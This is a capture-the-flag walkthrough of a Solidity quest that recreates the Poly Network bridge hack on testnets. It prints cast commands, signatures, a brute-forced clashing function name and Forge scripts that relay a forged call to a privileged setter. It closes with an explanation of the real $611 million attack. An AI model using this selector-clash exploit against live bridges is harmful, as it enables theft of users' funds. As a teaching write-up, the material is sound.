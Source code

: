 ```yaml
---
title: Poly Network
weight: 1
type: docs
---
```


- Link: https://nodeguardians.io/dev-hub/quests/poly-rekt</br>
- About: ctf</br>
- Author: Julien</br>
- Difficulty: 🗡🗡🗡🗡</br>
- Language: Solidity</br>
- Skill Cat: Security</br>

---

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled.png)

First here the the boat address on Goerli (the target contract we have to interact with):

```solidity
cast call $TRADING_BOAT_GOERLI --rpc-url $RPC_URL_GOERLI "tradingData()(address)"

> 0xFDDa11C6504db2Cf760F3cb53253D88cF8A5a593
```

Now we can try to interact with the bridge contract on Fuji chain:

```solidity
cast send $TRADING_BOAT_FUJI  --private-key $PRIVATE_KEY --rpc-url $RPC_URL_FUJI "sendShipment(string,bytes32[],uint64,address)(bytes32)" "setTrademasters" [0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6] 0x5 $TRADING_DATA_GOERLI
```

output:

```solidity
0x97bc653aac2c7b476cefe65e9df32d34caf31f670e4f36a441000963f8df3a37
```

Now we can call the offchain trademaster to generate a signature:

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%201.png)

```solidity
Signature: 0x265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c
```

Let’s create a script to automate the process:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c";
        boat.relayShipment("setTrademasters", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

Now we can relay the message on the goerli chain using the following script:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c";
        boat.relayShipment("setTrademasters", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

without a surprise the contract revert :

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%202.png)

This is because the relay function add some params (bytes32[],uint64,address) that we don’t need and that change the function selector resulting in calling the wrong method on the target contract:

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%203.png)

We can see on the error message above that we call the selector `0x3b2e7145` whereas we were expecting to call `0xef51774d` :

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%204.png)

Now we know that it’s pretty much straight forward what we have to do: brutforce the *method params so that `abi.ecodePacked(\_*method, (bytes32[], uint64, address)`result in the`0xef51774d` selector.

In order to do that I installed the following program that seems to do the job:

[https://github.com/botdad/power-clash](https://github.com/botdad/power-clash)

```bash
> docker run --rm power-clash -a bytes32[],uint64,address -s ef51774d -p setTrademasters
> Attempting to find setTrademasters******(bytes32[],uint64,address) match for 0xef51774d in 19770609664 max permutations
> Calculating 6277782.5 permutations per second
> Found match in 902.78942008s
> setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d
```

and Bingo! we have it : `setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d`

Now we can do the say process as before but using the new function name.

Here is the signature we got:

```bash
Signature: 0xeb8f7dc8da0fce482b52e20d85dc0f602c2932acea3170e3f4cea0a752855545505ac6ff2587c7d4d43b4936361832c4fd54c7a2a75d3f63efd23190f735f7771c
```

fuji.s.sol

```bash
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address TRADING_BOAT_FUJI = vm.envAddress("TRADING_BOAT_FUJI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_FUJI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes32 bridgeHash = boat.sendShipment("setTrademastersLMuGgO", params, 5, TRADING_DATA_GOERLI);
        console.logBytes32(bridgeHash);

        vm.stopBroadcast();
    }
}
```

goerli.s.sol

```bash
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"eb8f7dc8da0fce482b52e20d85dc0f602c2932acea3170e3f4cea0a752855545505ac6ff2587c7d4d43b4936361832c4fd54c7a2a75d3f63efd23190f735f7771c";
        boat.relayShipment("setTrademastersLMuGgO", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

## **Poly Network**

Poly Network is a cross-chain protocol that facilitates cross-chain interaction between otherwise disconnected blockchains.

Poly Network is more advanced than King Baku's network. For instance, it uses merkle roots to batch cross-chain transactions, and a multi-signature scheme to improve decentralization.

However similar to our `TradingBoat` contracts, Poly Network partitions its cross-chain contracts into 2 entities:

1. `EthCrossChainManager` which handles the cross-chain verification and execution logic.

2. `EthCrossChainData` which manages important information regarding cross-chain trademasters and calls.

The partition allows Poly Network to upgrade `EthCrossChainManager` via proxy, while asserting `EthCrossChainData` as immutable.

## **Privilege Escalation Attack**

The attack on `TradingBoat` and Poly Network is enabled by the same two underlying reasons.

- The manager contract (`TradingBoat`/`EthCrossChainManager`) has access to some privileged external function (`setTrademasters()`/`putCurEpochConPubKeyBytes()`).
- The manager contract can call any function in any contract via selector clashing.

Consequently, a malicious attack can search for a selector clash that forces the manager contract to call the privileged external function, and invoke unexpected effects.

Poly Network has lost $611 million to this form of privilege escalation attack. Fortunately, the hacker has since return the stolen funds for a bug bounty reward.
